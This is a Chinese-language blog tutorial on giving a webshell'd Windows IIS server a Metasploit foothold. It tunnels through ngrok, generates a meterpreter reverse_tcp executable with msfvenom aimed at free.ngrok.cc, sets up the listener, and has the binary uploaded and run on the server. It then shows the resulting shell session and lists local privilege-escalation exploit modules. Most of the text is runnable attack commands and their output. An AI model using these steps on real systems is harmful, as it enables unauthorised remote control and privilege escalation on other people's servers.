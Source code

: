 ```yaml
---
title: "MSF Webshell 上线"
date: 2018-02-24T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


ngrok 内网穿透, 搭配 metasploit 实现 webshell 上线.

<!--more-->

ngrok.cc 注册账号 开通隧道 类型 tcp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383205.jpg)

下载客户端

我的是 linux arm

运行

`./sunny clientid xxxx`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383245.jpg)

下面用 msfvenom 生成后门程序

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > /tmp/test.exe`

端口填之前开通隧道的远程端口

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > test.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 端口
```

端口填之前开通隧道的本地端口

0.0.0.0 是为了监听所有地址

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
```

将生成的程序上传至服务器执行

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383763.jpg)

成功反弹会话

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (179779 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55460) at 2018-02-23 19:01:59 +0800

meterpreter> getuid
Server username IIS APPPOOL\baidu
meterpreter> sysinfo
Computer: WIN-XXOO
OS: Windows 2012 (Build 9200)
Architecture: x64
System Language: zh_CN
Domain: WORKGROUP
Logged on Users: 5
Meterpreter: x86/windows
meterpreter>
```

本地提权 exp 在 exploit/windows/local/ 下

```
msf exploit(multi/handler) > use exploit/windows/local/ms 
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ms14_009_ie_dfsvc
use exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_070_tcpip_ioctl
use exploit/windows/local/ms15_004_tswbproxy
use exploit/windows/local/ms15_051_client_copy_image
use exploit/windows/local/ms15_078_atmfd_bof     
use exploit/windows/local/ms16_016_webdav
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
use exploit/windows/local/ms_ndproxy
```